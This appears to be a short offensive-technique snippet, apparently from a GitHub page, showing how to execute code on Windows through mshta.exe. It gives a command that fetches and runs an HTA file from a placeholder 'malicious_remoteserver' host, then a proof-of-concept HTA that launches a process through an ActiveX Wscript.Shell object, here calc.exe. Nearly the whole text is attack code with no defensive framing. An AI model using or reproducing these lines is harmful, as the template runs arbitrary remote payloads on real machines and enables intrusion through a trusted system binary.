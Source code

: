 ### From mshta.exe

```
mshta.exe http://malicious_remoteserver/malware.hta
```
 
### Normal Poc.hta
```
<html>
<head>
  <script>
    var payload = 'calc.exe';
    new ActiveXObject('Wscript.Shell').Run(payload);
  </script>
</head>

<body>
  <h1>Poc </h1>
  <script>
    self.close();
  </script>
</body>
</html> 
```
